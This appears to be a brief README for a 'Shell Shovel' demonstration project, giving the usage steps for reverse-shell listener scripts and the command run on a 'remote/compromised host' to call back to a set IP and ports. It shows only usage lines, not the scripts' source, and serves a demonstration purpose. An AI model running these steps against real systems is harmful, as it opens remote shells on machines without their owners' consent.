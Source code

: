 Shell Shovel
============

I put this together to demonstrate shell shoveling.

## Running the demo

On your localhost run shovel-input.sh and shovel-display.sh

Be sure your iptables rules are set to allow access to the ports.

For the sake of demonstration we will localhost is at 192.168.1.100

### In terminal window 0x1

./shovel-input.sh 41337

### In terminal window 0x2

./shovel-display.sh 41338

### From the remote/compromised host

./target.sh 192.168.1.100 41337 41338 



